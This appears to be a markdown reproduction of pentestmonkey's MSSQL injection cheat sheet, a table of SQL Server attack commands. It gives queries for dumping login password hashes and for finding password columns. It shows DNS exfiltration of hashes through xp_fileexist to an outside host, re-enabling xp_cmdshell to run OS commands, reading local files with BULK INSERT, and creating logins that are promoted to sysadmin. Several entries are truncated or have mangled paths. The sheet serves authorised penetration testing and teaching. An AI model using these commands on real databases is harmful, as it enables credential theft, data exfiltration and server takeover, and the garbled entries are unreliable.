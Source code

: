# All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT @@version|
|Comments|SELECT 1 — commen; SELECT /*comment*/1|
|Current User|SELECT user_name(); SELECT system_user; SELECT user; SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID|
|List Users|SELECT name FROM master..syslogins|
|List Password Hashes|SELECT name, password FROM master..sysxlogins — priv, mssql 2000; SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer; SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005; SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005|
|Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen|drescher can crack these.|
|List Privileges|– current privs on a particular object in 2005, 200; SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current databas; SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current serve; SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a tabl; SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’); –permissions on a user– current privs in 2005, 200; SELECT is_srvrolemember(‘sysadmin’); SELECT is_srvrolemember(‘dbcreator’); SELECT is_srvrolemember(‘bulkadmin’); SELECT is_srvrolemember(‘diskadmin’); SELECT is_srvrolemember(‘processadmin’); SELECT is_srvrolemember(‘serveradmin’); SELECT is_srvrolemember(‘setupadmin’); SELECT is_srvrolemember(‘securityadmin’); – who has a particular priv? 2005, 200; SELECT name FROM master..syslogins WHERE denylogin = 0; SELECT name FROM master..syslogins WHERE hasaccess = 1; SELECT name FROM master..syslogins WHERE isntname = 0; SELECT name FROM master..syslogins WHERE isntgroup = 0; SELECT name FROM master..syslogins WHERE sysadmin = 1; SELECT name FROM master..syslogins WHERE securityadmin = 1; SELECT name FROM master..syslogins WHERE serveradmin = 1; SELECT name FROM master..syslogins WHERE setupadmin = 1; SELECT name FROM master..syslogins WHERE processadmin = 1; SELECT name FROM master..syslogins WHERE diskadmin = 1; SELECT name FROM master..syslogins WHERE dbcreator = 1; SELECT name FROM master..syslogins WHERE bulkadmin = 1;|
|List DBA Accounts|SELECT is_srvrolemember(‘sysadmin’); — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentatio;  SELECT is_srvrolemember(‘sysadmin’, ‘sa’); — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username; SELECT name FROM master..syslogins WHERE sysadmin = ’1′ — tested on 2005|
|Current Database|SELECT DB_NAME()|
|List Databases|SELECT name FROM master..sysdatabases; SELECT DB_NAME(N); — for N = 0, 1, 2, …|
|List Columns|SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB onl; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|List Tables|SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for view; SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|Find Tables From Column Name|– NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects); SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’ — this lists table, column for each column containing the word ‘password’|
|Select Nth Row|SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC — gets 9th row|
|Select Nth Char|SELECT substring(‘abcd’, 3, 1) — returns c|
|Bitwise AND|SELECT 6 & 2 — returns ; SELECT 6 & 1 — returns 0|
|ASCII Value -> Char|SELECT char(0×41) — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) – returns 65|
|Casting|SELECT CAST(’1′ as int); SELECT CAST(1 as char)|
|String Concatenation|SELECT ‘A’ + ‘B’ – returns AB|
|If Statement|IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1|
|Avoiding Quotes|SELECT char(65)+char(66) — returns AB|
|Time Delay|WAITFOR DELAY ’0:0:5′ — pause for 5 seconds|
|Make DNS Requests|declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary; – Also check out theDNS tunnel feature of sqlninja|
|Command Execution|EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default: EXEC sp_configure ‘show advanced options’, 1; — pri; RECONFIGURE; — pri; EXEC sp_configure ‘xp_cmdshell’, 1; — pri; RECONFIGURE; — priv|
|Local File Access|CREATE TABLE mydata (line varchar(8000)); BULK INSERT mydata FROM ‘c:boot.ini’; DROP TABLE mydata;|
|Hostname, IP Address|SELECT HOST_NAME()|
|Create Users|EXEC sp_addlogin ‘user’, ‘pass’; — priv|
|Drop Users|EXEC sp_droplogin ‘user’; — priv|
|Make User DBA|EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin; — priv|
|Location of DB files|EXEC sp_helpdb master; –location of master.md; EXEC sp_helpdb pubs; –location of pubs.mdf|
|Default/System Databases|northwin; mode; msd; pubs — not on sql server 200; tempdb|

